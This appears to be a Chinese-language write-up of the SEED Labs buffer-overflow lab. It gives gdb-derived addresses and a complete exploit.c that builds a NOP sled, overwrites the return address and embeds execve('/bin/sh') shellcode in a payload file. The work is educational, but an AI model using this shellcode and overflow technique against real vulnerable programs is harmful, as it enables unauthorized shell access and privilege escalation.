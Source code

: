 通过gdb调试发现：

- buffer地址为：0xbfffeb18
- ebp地址为：0xbfffeb38
- `p/d $ebp-0xffffcf84=32`，也即是说，ebp在buffer上面32字节的位置
- 返回地址为buffer上面36字节的位置

![](https://raw.githubusercontent.com/LaPhilosophie/seedlab/main/Buffer-Overflow%20Attack%20Lab%20%EF%BC%8816.04%EF%BC%89/image/20221124205928.png)

exploit.c：

```c
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 
    memcpy(buffer+36,"\x7c\xeb\xff\xbf",4);//0xbf ff eb 7c
    strcpy(buffer+100,shellcode);
    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
```
